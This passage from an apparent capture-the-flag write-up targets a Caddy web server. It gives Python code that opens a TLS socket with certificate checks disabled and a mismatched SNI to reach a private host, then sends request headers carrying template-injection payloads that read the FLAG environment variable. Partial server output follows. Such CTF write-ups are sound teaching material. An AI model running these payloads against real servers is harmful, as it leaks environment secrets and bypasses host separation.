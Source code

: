 ```python
sock.settimeout(10)  # 10 second timeout

# Wrap socket with SSL
ssl_sock = context.wrap_socket(sock, server_hostname=sni_hostname)

try:
    # Connect to server
    ssl_sock.connect((server_host, server_port))
    
    # Send HTTP request
    ssl_sock.send(request_content.encode() + b'\r\n')
    
    # Receive response
    response = b''
    while True:
        chunk = ssl_sock.recv(4096)
        if not chunk:
            break
        response += chunk
    
    # Print response
    print(response.decode('utf-8', errors='ignore'))

except Exception as e:
    print(f"Error: {e}")

finally:
    # Close the connection
    ssl_sock.close()
```

This creates a socket connection to the server, wraps the socket in an SSL context, specially configured to allow us to not match the hostname and skip certificate verification, sets the SNI hostname to the public host, and sends the request.

The request is as follows:
```
GET /fetch/headers HTTP/1.1
Host: private.caddy.chal-kalmarc.tf
User-Agent: Mozilla/5.0 
Accept: */*
Connection: close
intended_exploit: {{ env `FLAG`}}
goofy_exploit: {{ .Req.Header.Flag | toString  | substr 1 5 | env}}
flag: FLAG

```
This request targets the /fetch/headers endpoint on the private host, and includes the template injection exploit in the goofy_exploit header. The intended_exploit header is included to show that it works as well, but is not used in the final exploit.

By running this script, when we have the server running locally, we get the following output:
```
{
  "Accept": [
    "*/*"
  ],
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ],
  "Connection": [
    "close"
```